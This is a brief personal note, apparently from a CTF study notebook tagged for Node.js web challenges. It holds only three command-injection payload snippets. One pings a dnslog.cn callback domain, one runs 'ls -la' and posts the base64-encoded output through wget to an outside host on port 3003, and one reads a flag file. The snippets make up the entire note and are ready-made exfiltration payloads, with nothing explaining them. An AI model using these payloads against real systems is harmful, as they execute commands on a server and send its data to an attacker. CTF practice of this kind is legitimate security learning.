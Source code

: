 -
- tags:: [[CTFWEB/NodeJS]]
-
- # 施工中
	- ```js
	  require("child_process").spawn("curl", ["52s3km.dnslog.cn"]);
	  ```
	- ```js
	  require("child_process").spawn("ls", ["-la"]).stdout.on("data", data => {
	      require("child_process").spawn("wget", ["ca.xxx.xyz:3003", "--post-data", btoa(data)]);
	  });
	  ```
	- ```js
	  require("child_process").spawnSync(
	    'cat',
	    ['fl001g.txt']
	  ).stdout.toString()
	  
	  ```